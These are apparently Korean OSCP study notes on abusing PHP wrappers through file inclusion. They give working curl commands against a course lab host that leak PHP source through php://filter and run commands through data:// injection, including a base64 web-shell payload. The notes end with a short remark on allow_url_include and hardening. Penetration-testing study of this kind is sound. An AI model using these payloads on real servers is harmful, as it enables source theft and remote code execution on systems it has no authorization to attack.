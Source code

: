 ```yaml
---
layout: post
title: 9.2.2. PHP Wrappers
subtitle: 정보누출, RCE 취약점에 가까운 개념들
author: 마준영
categories: oscp
tags:
  - oscp
---
```

# 9.2.2. PHP Wrappers
## 1. PHP 래퍼(Wrappers)란?
	1. PHP는 다양한 프로토콜 래퍼(`php://`, `data://` 등)를 제공하여 파일 포함(File Inclusion) 취약점을 활용할 수 있게 합니다.
	2. 대표적으로 `php://filter`와 `data://` 래퍼를 사용하여 콘텐츠 필터링 또는 코드 실행을 시도할 수 있습니다.

### 1. `php://filter` 래퍼 활용
	1. `php://filter`는 파일 내용을 인코딩하거나, 실행 대신 내용을 표시하는 데 사용됩니다.
	2. 예를 들어, PHP 파일을 Base64로 인코딩한 상태로 출력하여 소스 코드를 분석할 수 있습니다.
	3. 이는 파일 포함(Local File Inclusion, LFI) 취약점과 결합하여 웹 애플리케이션의 PHP 파일 소스를 노출시킬 수 있습니다.
### 2. 예제
	1. base64 인코딩 없이 파일 내용 출력 (PHP가 실행되므로 결과에 소스가 보이지 않음)
	   ```shell
	   curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```
	2. base64 인코딩 으로 파일 내용 출력 (출력된 Base64 데이터를 디코딩하면 PHP소스 확인 가능.)
	   ```shell
	   curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

### 1. `data://` 래퍼 활용
1. `data://`는 데이터를 텍스트나 Base64 형식으로 직접 실행 코드에 포함할 수 있습니다.
2. 이는 로컬 파일을 오염시키지 않고 코드 실행을 가능하게 합니다.
3. 서버에 있는 php 파일을 변조하기 어려울때 사용하면 RCE를 할 수 있다.

### 2. 예제: `data://`로 코드 실행
	1. URL-인코딩된 PHP 코드 포함 및 실행
	   ```shell
	   curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```
	2. Base64 인코딩을 통한 실행
	   ```shell
	   echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"

```

## 제한 사항 및 우회 방법
- 기본 PHP 설정에서는 `data://` 래퍼가 작동하지 않습니다.
- 이를 활성화하려면 `allow_url_include` 설정이 필요합니다.
- 이러한 래퍼를 활용해 파일 필터링을 우회하거나, 취약점을 통해 민감한 정보를 획득 및 악용할 수 있습니다.

## 결론
- PHP Wrappers는 강력한 기능을 제공하지만, 잘못된 설정이나 취약점을 통해 공격자가 시스템을 악용할 수 있습니다.
- 이러한 취약점은 웹 애플리케이션의 보안성을 강화하고, 서버 설정을 적절히 구성함으로써 방지할 수 있습니다.